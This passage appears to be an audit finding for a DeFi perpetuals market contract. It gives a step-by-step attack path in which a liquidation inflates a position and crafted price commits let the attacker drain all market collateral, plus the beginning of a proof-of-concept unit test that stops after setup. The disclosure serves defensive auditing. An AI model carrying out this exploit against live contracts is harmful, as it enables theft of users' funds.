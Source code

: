 ### Attack Path

1. Attacker opens tiny long position from account1 with minimal collateral, and tiny maker position from account2.
2. Attacker awaits for the position to become liquidatable. He can also force liquidation himself, as described in another issue (close position and withdraw collateral, then position becomes liquidatable), but this is not necessary, just makes it easier.
3. Just before the position becomes liquidatable, attacker closes it fully (so that it's pending close), making `pending.negative == latestPosition.magnitude`
4. Attacker liquidates his position, increasing it to `2**62 - 1` or any other huge amount.
5. Attacker awaits commited price for the epoch of position increase (or commits himself).
6. Immediately after that, attacker commits any other price different from the previous commit with timestamp 1 second after the previous commit.
7. In the same transaction, attacker withdraws all market collateral either from account1 or account2 (depending on which account ends up in a huge profit due to price change).
Result: Attacker steal all funds from the market.

### Impact

All market funds are stolen by the Attacker.

### PoC

Add to `test/unit/Market.test.ts` in the `invariant violations` context:
```solidity
it('liquidator increases position', async () => {
  const riskParameter = { ...(await market.riskParameter()) }
  const riskParameterTakerFee = { ...riskParameter.takerFee }
  riskParameterTakerFee.linearFee = parse6decimal('0.003')
  riskParameter.takerFee = riskParameterTakerFee
  riskParameter.margin = parse6decimal('0.012')
  riskParameter.maintenance = parse6decimal('0.01')
  riskParameter.minMargin = parse6decimal('5')
  riskParameter.minMaintenance = parse6decimal('5')
  riskParameter.staleAfter = BigNumber.from(14400)
  await market.updateRiskParameter(riskParameter)

  const COLLATERAL_USER = parse6decimal('30')
  const POSITION_USER = parse6decimal('10')
  const POSITION2_USER = parse6decimal('100000000')

  dsu.transferFrom.whenCalledWith(user.address, market.address, COLLATERAL_USER.mul(1e12)).returns(true)
  dsu.transferFrom.whenCalledWith(userB.address, market.address, COLLATERAL.mul(1e12)).returns(true)
  dsu.transferFrom.whenCalledWith(userC.address, market.address, COLLATERAL_USER.mul(1e12)).returns(true)

  await market
    .connect(userB)
    ['update(address,uint256,uint256,uint256,int256,bool)'](
      userB.address,
      POSITION,
      0,
      0,
      COLLATERAL,
      false,
    )

  await market
    .connect(user)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, POSITION_USER, 0, COLLATERAL_USER, false)

```